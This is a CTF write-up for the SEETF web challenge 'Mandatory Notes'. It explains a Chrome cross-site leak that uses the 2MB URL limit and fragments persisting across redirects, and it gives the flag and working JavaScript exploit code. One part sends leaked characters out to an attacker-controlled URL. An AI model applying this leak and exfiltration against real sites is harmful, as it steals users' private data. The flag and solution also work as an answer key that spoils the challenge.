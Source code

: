 # Mandatory Notes Challenge

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{m4nd4t0ry_xs_l34k_dba26b9558}`

## Description

We have credible intelligence that Sussy McSus, CEO of EvilCorp, a shady MultiNational Corporation, is using this note-taking app to store sensitive information. He is known to be in cahoots with the SEE-IA. Can you find out what he is up to?

Note: the target page is `http://mnc.web.seetf.sg:1337/`.

## Difficulty

Hard

## Deployment

`docker-compose up -d`

## Solution

**Tested on Chrome Version 110.0.5481.77 (Official Build) (x86_64)**

Abusing Chrome's behavior when dealing with long URLs combined with URI fragments persisting across server redirects. I found this technique as an [unintended solution to `secrets` from HackTM CTF 2023](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets).

This issue is currently [pending a fix](https://bugs.chromium.org/p/chromium/issues/detail?id=1417488) by Chromium so we may have to intentionally downgrade the Chrome version if it gets fixed before the CTF.

If the note is found, the user is redirected to `?found=1#<base64 encoded JSON array of note IDs>`, otherwise they are redirected to `?found=0`.

```javascript
const found = req.session.notes.filter(note => note.text.includes(query));

if (!found.length) {
    return res.redirect('/?found=0');
}
return res.redirect(`/?found=1#${btoa(JSON.stringify(found.map(note => note.id)))}`);
```

Because URI fragments persist across server-side redirects, we can artificially inflate the URL length by adding a long fragment so that it is exactly 1 byte less than [Chrome's 2MB limit](https://chromium.googlesource.com/chromium/src/+/main/docs/security/url_display_guidelines/url_display_guidelines.md#url-length).

When a redirect causes the URL to increase in length, the 2MB limit is hit and the navigation is aborted. The page would become `about:blank#blocked`. Interestingly, this means that the window reference is treated as same-origin and the opener is able to read `window.origin` and other sensitive properties that are normally inaccessible from a cross-origin page.

This gives us two cases:

1. `?q=<guess>#AAA...AAA` finds a note. The user is redirected to `/?found=1#<base64 encoded JSON array of note IDs>`. Because the redirect includes a fragment, the long `#AAA...AAA` fragment is replaced with the new, much shorter fragment. The navigation proceeds as normal and the window is treated as cross-origin.
2. `?q=<guess>#AAA...AAA` does not find a note. The user is redirected to `/?found=0`. Because the redirect does not include a fragment, the long `#AAA...AAA` fragment is preserved. The navigation is aborted and the window is treated as same-origin.

Our goal is to distinguish between these two cases.

We can do this by catching the error thrown when attempting to access `window.origin` of a cross-origin window. If the error is thrown, we know that the URL length limit not exceeded and the note was found.

```javascript
const leak = async (url) => {
    let w = window.open(url + "#" + "A".repeat(2 * 1024 * 1024 - url.length - 1));
    await sleep(800);
    try {
        // Page is still same-origin, so about:blank page loaded
        // The URL length limit was exceeded
        w.origin;
        await w.close();
        return 0;
    } catch {
        // The URL length limit was not exceeded, so note was found
        await w.close();
        return 1;
    }
}
```

In order to detect the redirects, we must keep our query sufficiently short so that the original URL is at least 1 byte less than the final redirected URL. This means that we can only check 4 characters at a time (`?q=AAAA` is exactly 1 byte less than `?found=0`). We can use this to brute-force the flag character by character.

```javascript
const solve = async (char) => {
    // ?q=AAAA   redirects to
    // ?found=0  if note not found (so the URL is one character too long)
    // We can only check 4 characters at a time
    if (await leak(`http://chall?q=${flag.slice(-3) + char}`)) {
        await fetch(`${OUR_URL}?flag=${flag + char}`);
        return true;
    }
}
```
